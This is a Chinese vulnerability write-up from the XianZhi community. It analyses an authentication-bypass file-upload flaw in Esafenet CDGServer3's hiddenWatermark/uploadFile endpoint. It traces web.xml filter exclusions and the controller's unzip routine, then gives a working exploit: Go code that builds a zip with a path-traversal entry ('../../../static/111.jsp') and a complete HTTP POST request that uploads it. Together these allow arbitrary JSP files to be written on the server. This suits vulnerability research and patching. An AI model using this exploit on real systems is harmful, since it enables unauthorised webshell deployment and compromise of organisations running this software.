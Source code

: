 

# 亿赛通 hiddenWatermark 文件上传漏洞分析 - 先知社区

亿赛通 hiddenWatermark 文件上传漏洞分析

- - -

## 路由分析

查看`web.xml`

```plain
<!-- needed for ContextLoaderListener -->
<context-param>
    <param-name>contextConfigLocation</param-name>
    <param-value>/WEB-INF/spring/spring-sip.xml</param-value>
</context-param>

<servlet>
    <servlet-name>springDispatcherServlet</servlet-name>
    <servlet-class>org.springframework.web.servlet.DispatcherServlet</servlet-class>
    <init-param>
        <param-name>contextConfigLocation</param-name>
        <param-value>/WEB-INF/spring/spring-mvc.xml</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>

<servlet-mapping>
    <servlet-name>springDispatcherServlet</servlet-name>
    <url-pattern>*.do</url-pattern>
</servlet-mapping>
<servlet-mapping>
    <servlet-name>springDispatcherServlet</servlet-name>
    <url-pattern>/</url-pattern>
</servlet-mapping>
```

`DispatcherServlet` 处理和分发 Web 请求，典型的 Spring MVC 配置方式。

看看过滤器

```plain
<!-- 验证 serssion 的过滤器 -->
    <filter>
        <filter-name>SessionValidateFilter</filter-name>
        <filter-class>
            com.esafenet.filter.SessionValidateFilter
        </filter-class>
        <init-param>
            <param-name>excludedLoginUrls</param-name>
            <param-value>/logincontroller,/static/,/images/,/img/,/js/,/css/,/style/,
                /sip-style/,/sip-js/,/index.jsp,/loginExpire.jsp,/app/,/paramExpire.jsp,/druid,/todolistjump.jsp,/3g/,/LinkFilterService
            </param-value>
        </init-param>
        <init-param>
            <param-name>excludedClientUrls</param-name>
            <param-value>/TestConnectService,/GetValidateLoginUserService,
                /GlobalServlet,/secretKey/,/security/,/s/rs/,/FileCountService,/FilesService,/formType,
                /FileAuditService,/GetBoeFlowService,/GetUserSafetyPolicyService,/old/,/GetMacUserSafetyPolicy,/GetLinuxUserSafetyPolicy,/UserLoginOutService1,
                /UninstallApplicationService1,/UpdatePasswordService,/CDGAuthoriseTempletService1,/MailApp,
                /formType1,/AutoSignService1,/clientMessage,/document/,/UpgradeService1,/UpgradeService2,
                /FileLog2Service,/ExamCDGDocService1,/retranAssetsXml,/getAllAuthKey,/ViolationsLogService,
                /DecryptionApp,/software/,/asset/,/deskLog/,/UsbRegStatusAppServlet,/docRenewApp,/EmailDecryptionApp,
                /offlineApp,/outgoingServlet,/OutgoingRestoreApp,/permissionApp,/PrintLimitApp,/SecurityDropApp,
                /warning/,/fileCount/,/PrintAuditService,/outgoing/,/SystemService,/EmailAuditService,
                /GetDeskSafetyPolicyService,/UsbControlServlet,/egmServer/,/syncPolicy/,/secret/,/UserAjax,/OrganiseAjax,
                /GetUsecPolicyService,/OfflineApplicationService1,/OfflineApplicationService2,/client/,/WorkFileServlet,
                /DecryptApplicationService1,/parameter/HookService,/SystemConfig,/UsersService,/workflowE/,/ClientAjax,
                /EmailDecryptFileStatusApp,/getUltraSecKO,/MailMessageLogServices,/dlUltrasec,/checkWindowsPolicyUpdate,/saveKoFile,
                /softwareAsset/,/FileLogsService,/pageConfig,/subSecretQuery,/branchPolicy/,/policyLibNew/,/subsecret/,/rpc/,
                /groupControl/,/subSecretAdd,/exaction/,/subSecretDelete,/syncApi,/patchTask,/patchUpgrade,/log/logReport,/fuseApi,
                /policyLockSend,/wfPasswordConfig/,/estProperties/,/pingandept/,/updateDB/goDbUpdate,/api/estChat/,/hiddenWatermark/,
                /api/syncdata/
            </param-value>
        </init-param>
        ......
    </filter>
    <filter-mapping>
        <filter-name>SessionValidateFilter</filter-name>
        <url-pattern>/*</url-pattern>
    </filter-mapping>
```

这个 filter 会对 `/*` 鉴权，但是在配置中又排除了很多 url。比如`excludedClientUrls` 中的`/hiddenWatermark/` 。

简单分析下`SessionValidateFilter`

[![](assets/1706771809-4314e2c2f2f68c08d8913bddd3b97c52.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129193143-fa39245a-be99-1.png)

将`excludedClientUrls`中的 path 都放进 `this.excludedClientUrls`。

继续看`doFilter`

[![](assets/1706771809-cbd2e055f33ab8cb25b341b218ebd95e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129193201-04f7adda-be9a-1.png)

看到`excludedClientUrls`中的都不需要鉴权，当然不只这个。

来看看具体路由，

指定包扫描的规则

```plain
<context:component-scan  base-package="com.esafenet.ta" use-default-filters="false">
    <context:include-filter type="annotation" expression="org.springframework.stereotype.Controller"/>
</context:component-scan>
```

## 漏洞分析

类`com.esafenet.ta.server.controller.deskManage.HiddenWatermarkController`

[![](assets/1706771809-414fdbf4f23ccb43532cd9bf672b4767.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129193223-12230004-be9a-1.png)

很明显的上传，然后`FileUtil.writeFile` 将内容写进 一个 zip 文件，`CDGUtil.unzipFile` 将其解压。

跟进看看

[![](assets/1706771809-bf0a3accd41e3d17568ecad4b571f62a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129193236-1a248278-be9a-1.png)

与 压缩包内的文件名拼接，可以路径穿越。

回到`uploadFile` ，

```plain
String xmlPath = dirPath + File.separator + uuid + File.separator + "theme" + File.separator + "theme1.xml";
File file = new File(xmlPath);
fis1 = new FileInputStream(file);
```

这里可以构造 `theme1.xml` 按流程走下去。  
但是也可以不构造，然后会抛出异常走 catch

```plain
catch (Exception var32) {
    logger.error(var32.getMessage(), var32);
    map.put("fileId", "null");
    var31 = false;
}
```

## 漏洞利用

制作压缩包

```plain
package main

import (
    "archive/zip"
    "os"
)

func main() {

    zipFilePath := "test1.zip"

    binary := []byte("test1")

    zipFile, err := os.OpenFile(zipFilePath, os.O_WRONLY|os.O_CREATE|os.O_APPEND, 0644)
    if err != nil {
        panic(err)
    }
    defer zipFile.Close()

    zipWriter := zip.NewWriter(zipFile)
    defer zipWriter.Close()

    zipInfo := &zip.FileHeader{
        Name:   "../../../static/111.jsp",
        Method: zip.Deflate,
    }

    writer, err := zipWriter.CreateHeader(zipInfo)
    if err != nil {
        panic(err)
    }

    _, err = writer.Write(binary)
    if err != nil {
        panic(err)
    }
}
```

这里由于写到根目录有鉴权，所以写到`static`等目录。  
也可以写`../../../../../tomcat/webapps/ROOT/`

```plain
POST /CDGServer3/hiddenWatermark/uploadFile HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=------------------------ZJFgyTJOTvpUxHrORpYjkblliLjmziUgFqpcBCZJ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 183

--------------------------ZJFgyTJOTvpUxHrORpYjkblliLjmziUgFqpcBCZJ
Content-Disposition: form-data; name="doc";filename="1.zip"

{{file(d:\test1.zip)}}
--------------------------ZJFgyTJOTvpUxHrORpYjkblliLjmziUgFqpcBCZJ--
```

[![](assets/1706771809-190d5874792da75ef4a07e403cbced57.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129193308-2cc6a19a-be9a-1.png)

[![](assets/1706771809-cdd6a37a798d20131e11dc48dac84e72.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129193312-2f3d23b8-be9a-1.png)
